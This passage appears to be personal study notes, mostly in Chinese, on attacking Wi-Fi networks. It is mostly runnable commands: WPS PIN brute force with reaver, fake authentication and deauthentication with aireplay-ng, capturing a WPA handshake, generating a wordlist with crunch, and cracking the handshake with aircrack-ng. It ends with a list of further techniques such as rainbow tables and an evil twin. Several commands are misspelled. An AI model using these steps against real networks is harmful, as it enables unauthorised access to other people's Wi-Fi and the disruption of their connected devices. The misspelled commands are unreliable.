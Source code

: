 `wash --interface mon0`

2.1暴力破解 pin

`reaver --bssid TARGET_MAC --channel 1 --interface wlan0 -vvv --no-associate`

2.2与目标网路建立连接

`airreplay-ng --fakeauth 30 -a AP_MAC -h ADAPTER_MAC wlan0  `(每30秒重试一次)

### WPA/WPA2 Cracking - How to Capture the HandShake

1.监听目标网络，存到文件

`airodump --bssid TARGET_MAC --channel 1 --write wpa_handshake wlan0`

等到出现handshake(提示 WPA handshake: MAC_ADDRESS)

可以使用deauth攻击

`aireplay-ng --deauth 4  --a Target_AP_MAC -c CLIENT_MAC mon0`

handshake 里未包含秘钥信息，但可以用来检测密码是否正确

### WPA/WPA2 Cracking - Creating a Wordlist

创建密码表

`crunch [min] [max] [characters] -t [pattern] -o [FileName]`

example:

`crunch 6 8 123abc$ -o wordlist -t a@@@@b`

### WPA/WPA2 Cracking - Using a Wordlist Attack

原理 aircrack-ng 通过字典和四次握手报文的有效信息里合成mic 和 原来的mic信息进行对比

MIC (message integrity code)

`aircrack-ng handshake.cap-w wordlist.txt `

高级用法：

​	using gpu 加速 通过pipe边生成密码边验证

​	use rainbow tables

​	暂停  继续

​	evil tween attack









   